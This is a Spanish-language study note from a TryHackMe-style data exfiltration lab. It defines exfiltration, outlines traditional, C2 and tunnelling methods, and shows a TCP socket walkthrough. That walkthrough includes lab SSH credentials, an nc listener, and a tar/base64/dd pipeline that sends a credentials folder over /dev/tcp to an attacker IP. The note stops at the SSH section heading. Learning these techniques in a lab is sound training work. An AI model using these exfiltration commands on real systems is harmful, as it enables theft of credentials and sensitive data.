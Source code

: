 # Filtración Datos

# Objetivos de Aprendizaje

- Que es la filtración de datos?
- Entender la filtració nde datos y como se usa
- Practicas protocolos: Sockets, SSH, ICMP, HTTP(s) y DNS
- Practicas comunicaciones con C2 o varios protocolos
- Practicar entablar Tueneles del DNS y HTTP

# Infraestructura de red

![image](https://github.com/user-attachments/assets/d21197ed-d328-4357-8d08-ad0c560eb1ac)

# Filtración de datos

Filtración de datos es el proceso de coger o copiar datos sensibles sin autorización de dentro de una organización o red para fuera. Es importante anotar que este tipo de filtarción compromete el proceso y da también acceso a la red dando varios accesos y datos sensibles.

Se puede denominar como información sensible:

- Usuarios y contraseñas
- Detalles de cuentas
- Estrategias de negocio
- Llaves criptograficas
- Empleados y información personal
- Projeto de codigo de datos

## Como se puede hacer

Hay teres casos o escenarios

- Filtración de datos
- C2
- Tuneling

### Tradicional

Es simplemente mover datos de dentro de la red a fuera.

### C2

Mover los datos a traver de un C2

### Tunneling

Mover a traves de un canal de comunicaciones creado

# Filtración Usando Sockets TCP

Esta exfiltración es muy fácil de detectar si tenemos los protocolo bien configurados.

Dentras de los TCP sockets, tenemos varias tectnicas, incluyendo codificación de datos y archivar. Uno de los beneficios de estas tecnicas es codificar los datos durante la transmisión y hacer que sea más dificil examinar.

El siguiente diagrama explicar como las comunicaciones TCP funcionan.

![image](https://github.com/user-attachments/assets/b2c034f1-1987-41c6-bafe-3ef31446c30a)

1- Primero de todo nos Conectamos via el puerto 1337
2- La otra maquina se conecta al puerto especifico. Por ejemplo un nc 1.2.3.4 1337
3- La primera máquina entabla conexión
4- Finalmente, se mandan los datos y se reciben los resultados

Las comunicaciones TCP requieren obviamente dos máquinas, una victima y una tacante, que transfiere los datos. Vamos a usar el entorno de red para practicar

Necesitaremos preapar un listener a un puerto espeficio

```
nc -lvnp 8080 > /rmp/task4-creds.data
```

Estamos haciendo que recibamos los datos por el 8080, una vez recibidos se guarden el archivo que hemos marcado

Vamos a conectar la máquina victima que cuente los datos y transmitir lo que necesitamos

```
ssh thm@ip -p 2022
```
thm:tryhackme

Nosotros necesitamos los datos transmitidos en este caso

```
cat task4/creds.txt
```
Transpasar los datos:

```
tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/192.168.0.133/8080
```

```
thm@jump-box$ nc -lvp 8080 > /tmp/task4-creds.data
Listening on [0.0.0.0] (family 0, port 8080)
Connection from 192.168.0.101 received!

thm@jump-box$ ls -l /tmp/
-rw-r--r-- 1 root root       240 Apr  8 11:37 task4-creds.data
```

Descomprimimos

```
tar xvf credenciales
```

# Filtración Usando SSH





